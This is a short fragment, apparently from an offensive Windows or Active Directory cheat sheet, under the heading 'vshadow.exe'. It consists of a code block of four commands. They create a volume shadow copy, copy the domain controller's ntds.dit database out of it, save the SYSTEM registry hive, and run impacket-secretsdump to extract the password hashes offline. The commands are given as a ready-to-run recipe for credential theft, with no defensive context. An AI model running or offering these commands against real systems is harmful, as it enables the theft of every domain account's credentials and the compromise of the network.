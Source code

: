 ### vshadow.exe
```
vshadow.exe -nw -p  C:                                # - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
reg.exe save hklm\system c:\system.bak
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
